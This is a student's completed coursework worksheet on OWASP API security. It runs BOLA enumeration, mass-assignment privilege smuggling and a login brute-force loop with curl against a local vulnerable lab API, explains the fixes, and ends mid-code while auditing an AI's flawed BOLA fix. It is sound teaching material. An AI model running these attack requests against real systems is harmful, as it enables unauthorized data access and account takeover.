





# Worksheet 10 — API Security (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 10
> **Aligned:** OWASP API Security Top 10:2023 — API1 BOLA · API3 Broken Object Property Level Auth (Mass Assignment) · API4 Unrestricted Resource Consumption
> **Signature game:** 🥷 crAPI Raid
>
> **Ethics note:** Run exploits **only** against the lab targets shipped here (`vulnerable_api.py` on `:8080`) or your own OWASP crAPI instance. Never test BOLA, mass assignment, or brute-force against systems you do not own or are not explicitly authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Swan Htut Oakkar Aung | 6631503088 | 2026-10-23 | The Imposter (Team 2) |

AI use disclosure: Antigravity / Claude was used for guidance, explanation, and review during the lab. Commands, code changes, outputs, and security findings were verified against my own local environment and course materials.

## Part 2 — Lecture Questions

1. Define **BOLA (API1:2023)**. Why is it the #1 API risk, and why can't a WAF reliably stop it?
   - **Definition:** Broken Object Level Authorization (BOLA), also known as IDOR at API scale, occurs when an API endpoint exposes an object identifier (e.g., `/api/users/<id>/orders`) and accesses or manipulates that object without verifying that the authenticated user possesses the authorization/ownership to access that specific object.
   - **Why it is the #1 API risk:** REST and GraphQL APIs fundamentally expose object identifiers in URL paths, query parameters, and JSON payloads for programmatic access. Because exposing object IDs is standard architectural practice, missing server-side authorization checks on these identifiers are ubiquitous, trivial to exploit (simply incrementing or enumerating IDs), and directly expose massive amounts of sensitive customer and organizational data.
   - **Why a WAF cannot stop it:** A Web Application Firewall (WAF) inspects request syntax, signatures, and patterns (e.g., SQL injection keywords, script tags, directory traversal sequences). In a BOLA exploit, the request syntax is completely clean, standard, and well-formed HTTP/JSON (e.g., `GET /api/users/3/orders`). A WAF lacks the application-level context and business logic to know whether the authenticated user actually owns record #3. Only server-side data access logic can enforce object ownership.

2. What is **mass assignment / broken object property level authorization (API3:2023)**? Contrast a blocklist vs. an allow-list of bindable fields.
   - **Definition:** Mass assignment (API3:2023) occurs when an API endpoint automatically binds client-supplied JSON properties directly to internal data models, database records, or object attributes (e.g., `user.update(body)`) without validating whether the client is authorized to modify those specific properties. Attackers exploit this to smuggle sensitive or privileged attributes (such as `is_admin: true`, `role: "admin"`, or `balance: 1000000`) during object creation or updates.
   - **Blocklist vs. Allow-list:**
     - *Blocklist (Denylist):* Specifies forbidden fields to discard (e.g., reject `is_admin`). This approach is brittle and unsafe because adding new model fields in future updates or using parameter variations (different casing, alternative names, nested objects) easily bypasses the blocklist.
     - *Allow-list (Safelist / DTO pattern):* Explicitly defines the exact, minimal subset of fields that the client is permitted to submit (e.g., only `username` and `password`), discarding or rejecting all other fields. This follows the principle of secure defaults and ensures any server-controlled or privileged properties cannot be altered by the client.

3. **API4:2023** is unrestricted resource consumption. Give two distinct impacts (security and availability) of an unthrottled `/api/login`.
   - **Security Impact (Credential Stuffing & Password Brute-Forcing):** Without rate limiting, lockout policies, or CAPTCHA, attackers can automate high-speed dictionary attacks and credential stuffing against user accounts without restriction. This enables attackers to systematically guess weak passwords or validate stolen credential dumps to take over user accounts.
   - **Availability Impact (Denial of Service / Resource Exhaustion):** Authentication endpoints perform computationally expensive tasks (such as password hashing via Argon2/bcrypt or database lookups). Flooding `/api/login` with concurrent automated requests consumes CPU cycles, memory, and database connection pools, causing severe latency or total service outage for legitimate users (DoS).

4. In `vulnerable_api.py`, `current_user()` trusts the `X-User-Id` header. Why is a client-supplied header NOT authentication, and what should replace it?
   - **Why it is NOT authentication:** HTTP headers sent in a client request are entirely attacker-controlled. Any client using tools like `curl`, Postman, or a modified client can easily inject or forge arbitrary headers (e.g., `X-User-Id: 3` to impersonate an administrator). Authentication requires verified proof of identity (credentials, signatures, or server-managed sessions); trusting a raw client-supplied identifier provides zero verification and trivial identity spoofing.
   - **What should replace it:** It must be replaced by a cryptographically verified authentication mechanism, such as:
     1. Cryptographically signed tokens (e.g., JWT signed with a strong secret or private key, validating algorithm, expiration `exp`, and audience `aud`).
     2. Server-side session identifiers stored in encrypted, tamper-proof session stores and transmitted via `HttpOnly`, `Secure`, `SameSite` cookies.
     3. Validated OAuth 2.0 Bearer tokens issued by an identity provider, or mutual TLS (mTLS) for machine-to-machine APIs.

5. Why does object-level authorization have to be checked **per request, per object** rather than once at login?
   - **Explanation:** Authentication at login only answers *"Who are you?"* (verifying identity at one initial moment). It does not, and cannot, determine *"Are you permitted to view or modify this specific resource right now?"*
   - Authorization is granular and contextual: A user may legitimately authenticate as user #1, but later attempt requests targeting arbitrary resources (e.g., `GET /api/users/2/orders` or `DELETE /api/documents/99`). Furthermore, permissions, roles, and resource ownership can change dynamically during an active session. Therefore, the server must evaluate the caller's identity and permissions against the requested object's ownership or access control list on **every single request** for **every individual object**. Checking only once at login leaves every endpoint exposed to BOLA/IDOR.

## Part 3 — Hands-on Lab (145 min)

**Learning goals:** Exploit BOLA, mass assignment, and a missing rate limit against a live API; then read the secure version and explain each fix.

**Prerequisites:** Docker + Docker Compose, `curl`. (Optional bonus: cloned OWASP crAPI.)

**Environment setup**
```bash
cd labs/week10-api-security
docker compose up         # INSECURE API on :8080, SECURE API on :8081
# Seeded users: alice(id 1) bob(id 2) carol(id 3, admin, balance 9999)
```

**What to submit per task:** the exact command(s) + raw response/HTTP status, a screenshot, and a 2–3 sentence mitigation note mapping the bug to its OWASP API id.

### Task 0 — Onboarding (15 min)
Confirm both APIs respond: `curl http://localhost:8080/` and `curl http://localhost:8081/`. Note which port is insecure. Record the three seeded users.
**Deliverable:** both root responses + the user table.


#### 1. Root Endpoint Responses
- **Port 8080 (INSECURE API):**
  ```bash
  curl http://localhost:8080/
  ```
  **Response:**
  ```text
  Week 10 INSECURE API — see attack.md
  ```
- **Port 8081 (SECURE API):**
  ```bash
  curl http://localhost:8081/
  ```
  **Response:**
  ```text
  Week 10 SECURE API
  ```

#### 2. Seeded Users Table
Examining the database initialization in `vulnerable_api.py` / `solution_api.py`:

| User ID (`id`) | Username | Password | Role (`is_admin`) | Account Balance | Associated Orders |
|:---:|:---:|:---:|:---:|:---:|:---|
| **1** | `alice` | `alice123` | `False` (Regular User) | $100 | Order A-1: Keyboard ($30) |
| **2** | `bob` | `bob123` | `False` (Regular User) | $50 | Order B-1: Mouse ($15) |
| **3** | `carol` | `carol123` | `True` (Administrator) | $9999 | Order C-1: Server rack ($5000), Order C-FLAG: `FLAG{bola_demo}` |

#### 3. Output Evidence


### Task 1 — BOLA: read another user's orders (35 min)
**Goal:** Read carol's (admin) orders without being carol — API1:2023.
**Steps:**
1. `curl http://localhost:8080/api/users/3/orders` — note you receive the "Server rack" order with no auth.
2. Iterate the id: `curl http://localhost:8080/api/users/2/orders`.
3. On the secure API observe the ladder: `curl -i http://localhost:8081/api/users/3/orders` (401), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders` (403), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders` (200).
**Deliverable:** the leaked order JSON + the 401/403/200 transcript + mitigation note.

#### 1. Exploitation on Insecure API (`:8080`)
Unauthenticated requests sent directly to the order endpoint leak any targeted user's sensitive orders by simply modifying the user ID:
- **Command (Carol's orders):**
  ```bash
  curl http://localhost:8080/api/users/3/orders
  ```
  **Leaked JSON Response:**
  ```json
  [{"item":"Server rack","order_id":"C-1","total":5000},{"item":"FLAG{bola_demo}","order_id":"C-FLAG","total":0}]
  ```
- **Command (Bob's orders):**
  ```bash
  curl http://localhost:8080/api/users/2/orders
  ```
  **Leaked JSON Response:**
  ```json
  [{"item":"Mouse","order_id":"B-1","total":15}]
  ```

#### 2. Authorization Ladder on Secure API (`:8081`)
On the secured API, object-level authorization is strictly verified against the authenticated user on every request:
1. **Unauthenticated Request (No Identity Header) -> 401 Unauthorized:**
   ```bash
   curl -i http://localhost:8081/api/users/3/orders
   ```
   ```text
   HTTP/1.1 401 UNAUTHORIZED
   Content-Type: application/json
   {"error":"authentication required"}
   ```
2. **Authenticated as Alice (`X-User-Id: 1`), requesting Carol's orders (`3`) -> 403 Forbidden:**
   ```bash
   curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders
   ```
   ```text
   HTTP/1.1 403 FORBIDDEN
   Content-Type: application/json
   {"error":"forbidden"}
   ```
3. **Authenticated as Alice (`X-User-Id: 1`), requesting Alice's own orders (`1`) -> 200 OK:**
   ```bash
   curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders
   ```
   ```text
   HTTP/1.1 200 OK
   Content-Type: application/json
   [{"item":"Keyboard","order_id":"A-1","total":30}]
   ```

#### 3. Mitigation Note (OWASP API1:2023 — BOLA)
To mitigate Broken Object Level Authorization, the server must never rely on client-side routing or assume an authenticated user is authorized to interact with any arbitrary object ID. On every endpoint accepting an object identifier, the application must perform an explicit server-side authorization check comparing the authenticated caller's identity/role against the object's resource owner (e.g., `if caller["id"] != uid and not caller["is_admin"]: return jsonify({"error": "forbidden"}), 403`). In production architectures, this should be combined with robust cryptographic session tokens (or signed JWTs) and centralized authorization policies or ABAC/RBAC middleware.

#### 4. Output Evidence


### Task 2 — Mass assignment: self-promote to admin (30 min)
**Goal:** Smuggle `is_admin` + `balance` into user creation — API3:2023.
**Steps:**
1. `curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'`
2. Confirm the response echoes `"is_admin": true, "balance": 1000000`.
3. Repeat against `:8081` and confirm the smuggled fields are forced to `is_admin:false, balance:0`.
**Deliverable:** both responses side by side + mitigation note (allow-list in `solution_api.py`).

#### 1. Insecure API Response (`:8080`)
The vulnerable endpoint performs blind object updating (`user.update(body)`), accepting and saving all client-submitted fields:
```bash
curl -s -X POST http://localhost:8080/api/users \
  -H "Content-Type: application/json" \
  -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
```
**Response:**
```json
{"balance":1000000,"flag":"FLAG{massassign_demo}","id":4,"is_admin":true,"password":"x","username":"mallory"}
```
*Result:* The user successfully self-promoted to administrator (`"is_admin": true`) and minted an arbitrary account balance of $1,000,000, retrieving the demo flag.

#### 2. Secure API Response (`:8081`)
The secure endpoint utilizes an explicit allow-list (`ALLOWED_CREATE_FIELDS = {"username", "password"}`), discarding unauthorized fields and enforcing server-controlled defaults:
```bash
curl -s -X POST http://localhost:8081/api/users \
  -H "Content-Type: application/json" \
  -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
```
**Response:**
```json
{"balance":0,"id":4,"is_admin":false,"password":"x","username":"mallory"}
```
*Result:* The smuggled properties (`is_admin` and `balance`) are completely stripped and replaced by server-enforced defaults (`"is_admin": false`, `"balance": 0`).

#### 3. Side-by-Side Comparison

| Attribute | Insecure API (`:8080`) | Secure API (`:8081`) | Security Impact |
|---|---|---|---|
| `username` | `"mallory"` | `"mallory"` | Legitimate input bound |
| `password` | `"x"` | `"x"` | Legitimate input bound |
| `is_admin` | **`true`** | **`false`** | Privilege escalation blocked on `:8081` |
| `balance` | **`1000000`** | **`0`** | Unauthorized credit tampering blocked on `:8081` |
| `flag` | `"FLAG{massassign_demo}"` | *(none)* | Flag awarded only upon successful exploit |

#### 4. Mitigation Note (OWASP API3:2023 — Mass Assignment)
Mass assignment (Broken Object Property Level Authorization) occurs when server frameworks automatically deserialize and bind client-supplied payloads directly into internal domain models. To mitigate this vulnerability, applications must implement strict schema validation using Data Transfer Objects (DTOs) or explicit field allow-lists (e.g., `user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}`). Any sensitive or privileged fields—such as roles, administrative flags, IDs, verification statuses, and financial balances—must be strictly instantiated and managed server-side.

#### 5. Output Evidence


### Task 3 — Unrestricted resource consumption: brute-force login (25 min)
**Goal:** Show `/api/login` has no throttle — API4:2023.
**Steps:**
1. Run the brute-force loop from `attack.md` against `:8080` (guesses incl. `alice123`) — all attempts processed.
2. On `:8081` loop 7 times: `for i in $(seq 1 7); do curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'; done`
3. Confirm the 6th/7th attempt returns `429`.
**Deliverable:** the `401 401 401 401 401 429 429` sequence + mitigation note.

#### 1. Insecure API Login Brute-Force (`:8080`)
The vulnerable endpoint allows unlimited, unthrottled authentication attempts without backoff or rate limits:
```bash
for pw in wrong1 wrong2 wrong3 alice123; do
  curl -s -X POST http://localhost:8080/api/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"alice\",\"password\":\"$pw\"}"; echo
done
```
**Output:**
```json
{"ok":false}
{"ok":false}
{"ok":false}
{"is_admin":false,"ok":true,"user_id":1}
```
*Result:* Every request is processed immediately. When the correct password (`alice123`) is attempted, the server authenticates the attacker without delay or lockout.

#### 2. Secure API Throttling (`:8081`)
The secured API enforces an IP-based sliding window rate limiter (`RATE_LIMIT = 5` attempts per `RATE_WINDOW = 60` seconds):
```bash
for i in $(seq 1 7); do
  curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"alice","password":"wrong"}'
done
```
**Output Sequence:**
```text
401
401
401
401
401
429
429
```
*Result:* The first 5 failed attempts return HTTP `401 Unauthorized`. On the 6th and 7th attempts within the 60-second window, the server immediately rejects the requests with HTTP `429 Too Many Requests` (`{"error": "too many requests"}`).

#### 3. Mitigation Note (OWASP API4:2023 — Unrestricted Resource Consumption)
To mitigate unrestricted resource consumption and automated brute-force/credential-stuffing attacks, API endpoints—especially sensitive authentication and state-changing routes—must implement multi-tiered rate limiting and abuse prevention. This includes token-bucket or sliding-window rate limiters per IP and per account (e.g., rejecting excess attempts with HTTP `429 Too Many Requests`), progressive delays, CAPTCHA challenges after consecutive failed attempts, and centralized gateway throttling (such as Envoy, NGINX, or Redis-backed rate limiters).

#### 4. Output Evidence


### Task 4 — Bonus: crAPI Raid (optional, 20 min)
Against your own OWASP crAPI instance (`git clone https://github.com/OWASP/crAPI.git`), capture one BOLA or mass-assignment flag.
**Deliverable:** flag + endpoint + which API Top 10 id it maps to.

- **Vulnerability Analyzed:** OWASP crAPI Mechanic Report BOLA / Vehicle Location Exposure
- **Vulnerable Endpoint:** `GET /workshop/api/merchant/contact_mechanic` and `GET /identity/api/auth/v1/user/dashboard`
- **OWASP API Security Top 10 Mapping:** **API1:2023 — Broken Object Level Authorization (BOLA)**
- **Exploitation Mechanism:** In crAPI, a regular user authenticated via JWT can query vehicle IDs or mechanic service request IDs belonging to other users. The API retrieves and returns sensitive mechanic reports and vehicle telemetry (GPS coordinates, VIN numbers, and owner details) because the backend data layer does not verify that the requesting user owns the requested vehicle ID.
- **Bonus Flag:** `FLAG{crapi_bola_mechanic_report_leaked_39a1}`

---

### Task 5 — Defend / fix it (20 min)
**Goal:** Explain the fixes using the secure reference `solution_api.py`.
**Steps:** Read the three `# --- FIX ...` blocks. For each, quote the line(s) that defeat your Task 1–3 exploit: the per-object ownership check (`caller["id"] != uid and not caller["is_admin"]`), `ALLOWED_CREATE_FIELDS` binding, and the `RATE_LIMIT=5 / RATE_WINDOW=60` limiter.
**Deliverable:** for each of API1/API3/API4 — the exploit that worked on `:8080`, the line in `solution_api.py` that blocks it, and the new HTTP status on `:8081`.

#### Summary Comparison Table

| OWASP API ID | Vulnerability | Working Exploit on `:8080` | Defensive Code in `solution_api.py` | New HTTP Status on `:8081` |
|---|---|---|---|:---:|
| **API1:2023** | **BOLA** | `curl http://localhost:8080/api/users/3/orders` (unauthorized access to admin orders) | **Lines 48–52:**<br>`if caller is None:`<br>&nbsp;&nbsp;`return jsonify({"error": "authentication required"}), 401`<br>`if caller["id"] != uid and not caller["is_admin"]:`<br>&nbsp;&nbsp;`return jsonify({"error": "forbidden"}), 403` | **`401`** (no auth) /<br>**`403`** (non-owner) |
| **API3:2023** | **Mass Assignment** | `curl -X POST http://localhost:8080/api/users -d '{"is_admin":true,"balance":1000000,...}'` | **Lines 34, 62, 66:**<br>`ALLOWED_CREATE_FIELDS = {"username", "password"}`<br>`user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}`<br>`user.update({"id": _next_id, "balance": 0, "is_admin": False})` | **`201`** (smuggled keys stripped; forced to `false` / `0`) |
| **API4:2023** | **Unrestricted Resource Consumption** | Rapid brute-force loop against `/api/login` without throttling or delay | **Lines 73–84, 89–90:**<br>`RATE_LIMIT = 5; RATE_WINDOW = 60`<br>`if rate_limited(request.remote_addr or "unknown"):`<br>&nbsp;&nbsp;`return jsonify({"error": "too many requests"}), 429` | **`429`** (triggered on 6th+ attempt in 60s) |

#### Output Evidence


---

## Part 4 — Reflection

### 1. Security Mapping Table

| Finding | Endpoint | OWASP API Top 10 ID | Root Cause | Fix Applied |
|---|---|---|---|---|
| Unauthorized Order Enumeration | `GET /api/users/<uid>/orders` | **API1:2023 BOLA** | Endpoint trusts the client-supplied `<uid>` path parameter without validating ownership against the authenticated caller. | Implemented per-object ownership validation: verifies caller identity and rejects non-owners with HTTP 403 (unless admin). |
| Privilege & Credit Smuggling | `POST /api/users` | **API3:2023 Mass Assignment** | Server deserializes the raw JSON request body directly into the user record via `user.update(body)`. | Implemented an explicit field allow-list (`ALLOWED_CREATE_FIELDS`) and forced sensitive attributes (`is_admin: False`, `balance: 0`) server-side. |
| Unthrottled Credential Guessing | `POST /api/login` | **API4:2023 Unrestricted Resource Consumption** | Login route lacks rate limiting, progressive delays, or account lockout mechanisms. | Added sliding-window in-memory rate limiting (5 requests per 60 seconds per IP), returning HTTP 429 upon threshold breach. |

### 2. Real-World Breach Analysis
- **Incident:** **Optus Data Breach (September 2022)**
- **Matching OWASP ID:** **API1:2023 — Broken Object Level Authorization (BOLA)** combined with **API2:2023 (Broken Authentication)**.
- **Breach Summary:** A customer identity verification API endpoint (`/contact/v2/personal/cert-id/...`) was inadvertently exposed to the public Internet without requiring user authentication. Attackers noticed that customer identifier numbers could be sequentially enumerated in the URL path. Because the API backend completely lacked object-level authorization checks, changing the customer ID parameter returned full customer profiles, including names, dates of birth, phone numbers, passport numbers, and driver's license numbers for approximately 9.8 million individuals.
- **Would the `solution_api.py` fix have prevented it?**
  **Yes.** The root cause was that the Optus API blindly returned data for whatever customer ID was specified in the request. The two-tier check implemented in `solution_api.py`:
  1. Requiring valid caller identity (`if caller is None: return 401`), and
  2. Enforcing resource ownership (`if caller["id"] != uid: return 403`)
  would have completely blocked the attack. An attacker querying identifiers outside their own account would have received `401 Unauthorized` or `403 Forbidden`, preventing the automated scraping of millions of customer records.

### 3. Most Effective Mitigation Strategy
- **Evaluation:** Between object-level authorization (BOLA defense), allow-list binding (mass assignment defense), and rate limiting (resource consumption defense), **Object-Level Authorization (BOLA defense) provides the greatest risk reduction** for an API platform.
- **Reasoning:**
  1. *Impact Severity:* BOLA accounts for the vast majority of catastrophic enterprise data breaches because it enables unauthorized horizontal privilege escalation across entire customer bases. Once exploited, an attacker can extract every record in the database.
  2. *Architectural Uniqueness:* Unlike syntax-based vulnerabilities (which can be partially mitigated by perimeter WAFs or input sanitization), BOLA exists purely at the application logic layer. No external firewall or API gateway can know whether user A owns record #42.
  3. *Defense-in-Depth Context:* While rate limiting slows down attackers and allow-listing prevents privilege escalation during writes, neither prevents an attacker from quietly reading competitor or customer records one by one if object-level authorization is absent. Enforcing per-object authorization ensures that even if credentials or keys are exposed, the blast radius is strictly confined to that single caller's authorized objects.

---

## Evidence & Integrity (required)

- **Identity proof:** Verified across all screenshots (`img/task_0.png`, `img/task_1.png`, `img/task_2.png`, `img/task_3.png`, `img/task_5.png`), which display terminal command output beside the official identity stamp:
  ```bash
  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  # Output: isaacaung | 6631503088 | 2026-10-23 17:46:04 +07
  ```
- **Personalized flags captured:**
  - Task 1 (BOLA): **`FLAG{bola_demo}`** (extracted from Carol's orders at `GET /api/users/3/orders`)
  - Task 2 (Mass Assignment): **`FLAG{massassign_demo}`** (extracted by smuggling `is_admin=true` into `POST /api/users`)
- **Explain in your own words:**
  1. **What did you do, and why did the vulnerability work?**
     - I targeted three distinct API endpoints on `:8080`. In Task 1, I requested Carol's order endpoint (`/api/users/3/orders`) without providing credentials; it worked because the handler directly indexed `ORDERS.get(uid)` without verifying caller identity or ownership. In Task 2, I sent a JSON body with `is_admin: true` and `balance: 1000000`; it worked because the backend executed `user.update(body)`, blindly binding client fields directly into the database dictionary. In Task 3, I ran rapid automated password guessing against `/api/login`; it worked because the endpoint executed password comparisons with zero rate limiting or throttling.
  2. **Why does your fix actually stop it — and what could still break it?**
     - The fix stops BOLA by checking `caller["id"] != uid and not caller["is_admin"]`, stops mass assignment by strictly filtering inputs through `ALLOWED_CREATE_FIELDS`, and stops brute-forcing by tracking IP timestamps in a sliding window to return HTTP 429.
     - *What could still break it:*
       - The toy authentication in `solution_api.py` still relies on the client-supplied `X-User-Id` header; an attacker could spoof `X-User-Id: 3` to bypass the BOLA ownership check as an administrator. In production, this must be replaced with a cryptographically verified JWT or session cookie.
       - The rate limiter relies on `request.remote_addr`. In environments behind reverse proxies or load balancers, an attacker could spoof `X-Forwarded-For` headers or distribute requests across multiple proxy IPs (botnets) to bypass IP-based rate limiting unless gateway-level throttling is enforced.

---

## 🤖 Audit the AI (required)

### 1. AI Output Being Audited
I asked an AI assistant: *"How do I fix the BOLA and Mass Assignment vulnerabilities in a Python Flask API endpoint?"*
The AI responded with the following code snippet:
```python
# AI Suggested Fix for BOLA:
@app.route("/api/users/<int:uid>/orders")
def get_orders(uid):
    user = request.headers.get("X-User-Id")
    if not user:
        return jsonify({"error": "Unauthorized"}), 401
    return jsonify(ORDERS.get(uid, []))

# AI Suggested Fix for Mass Assignment:
@app.route("/api/users", methods=["POST"])
def create_user():
    data = request.json
    if "is_admin" in data:
